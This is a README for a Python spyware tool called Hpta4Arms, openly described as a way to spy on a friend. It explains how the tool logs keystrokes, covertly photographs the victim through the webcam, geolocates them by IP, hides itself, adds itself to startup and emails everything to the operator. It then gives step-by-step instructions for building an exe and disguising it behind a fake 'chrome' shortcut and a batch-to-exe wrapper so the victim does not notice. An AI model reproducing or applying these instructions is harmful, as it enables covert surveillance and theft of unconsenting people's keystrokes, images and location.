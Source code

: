 #Hpta4Arms 
is a buggy tool used to spy on your friends it consists of 4_MAIN_ARMs <br>
First Arm : is Key logger that will save your key logs to a file called '''log.in''' <br>
Second Arm : will take photo from your laptop camera and save it in a file called '''logg.png'''<br>
Third Arm : will detect your location using this API freegeoip.net <br>
Fourth Arm : will package the last three arms and send them to your email address that you provide<br>

#Working Technique
first thing this is a spying tool so it has to work secretly in the background and run every time the computer is restarting and that is exaclly what hide()and addStartup()
do so let's start from the beginning : <br>
1- Hpta4Arms will hide itself and added to your start-up apps with the value of true <br>
2- and after that it will open afile called log.in and write a START:: word at the beginning it is a mark for your logs starting<br>
3- it will take a photo and save it to a file called logg.jpg this file will delete himself after it has been sent to the email address<br> 
4- it will detect your location (Lat & lng)--(this might not be accurate because of the API it will detect your first public IP and return it's location)<br>
5- it will send an email to the address you provided with this plain text<br>
`
My name is YOUR_FRIEND'S_PC_NAME <br>
I am at YOUR_FRIEND'S_LOCATION locate me on the map : http://www.whatsmygps.com/ <br>
`
this message will have two files attached the log.in (Logs Text file) and logg.jpg (photo that has been captured from your friend cam)<br>
![Hpta4Arms](https://github.com/GardiansLab/Hpta4Arms/Capture.PNG)

#Install
first you need to install the python packages to help in building your exe files you can plant it in your friend PC so let's go 
1- you need to install the packages from the requirements.txt file using this command  (navigate to the tool folder using your CMD)
`pip install requirement.txt` 
2- you need to specify the from and to email address to can send the email 
open 'Hpta4Arms.py' and goto line 108 & 109 and change the value to your from and to email addresses
Note :you can use the same email to send the message from the same email.<br>
3- go to line 144 and type your password 
4- here im using hotmail so in line 142 iam using smtp.live.comif you are using another email i.e gmail,yahoo,...etc you should provide your correct protocol
`smtplib.SMTP('smtp.live.com', 587)`
5-after that you need to get your exe file to prevent the victim from discovering your email and password if he discover the trick so you have pyinstaller then go to your CMD and run 
`pyinstaller Hpta4Arms.py`
6-two files will be created `dist` and `build` navigate to `dist/Hpta4arms/Hpta4arms.exe` you friend has to run this file to enables you spying on him
7- check the "Plant the tool in your friend PC" section to hide the tool with another software . 

#Plant the tool in your friend PC
now you have the exe file if you run it a cmd will open and close in a second (it's not closing it's hiding :D )
so more on hiding the tool without discovering it is to create a batch file that run a specific software and the tool in the same time
,most of people are using chrome so i will create a batch file that will run chrome and Hpta4Arms together so, go ahead and create a file called launch.bat
and paste the code in launch.bat in it . 
if your friend is using another software replace third line with the path of your friend's favourite software (make sure it is the exe file)
then go to desktop and right click and create shortcut and add the path to this batch file and rename the file chrome so your friend now will 
open this to start working on chrome and the tool is starting in the background 

#Give me more
let's suppose your friend is smart he will figure out that this batch file might be buggy so he avoid running it so now you will convert this batch file to exe file 
doing the same task go to bat2exe folder you will find a file called how_to_run.txt to convert any batch file to exe file 

#Examples
in the examples folder you will find testing for each arm alone feel free to edit them and made a pull request if there isn't anything 
working right with you contact me at ahmedkhaled36@hotmail.com

#If you have any problem 
if you are missing some of the modules you can install it using pip or check out this blog i wrote about installing any module [Here](http://ahmed-khd.blogspot.com.eg/2017/01/how-to-install-python-modules-very-easy.html)

#license
The package is open-sourced software licensed under the [MIT license].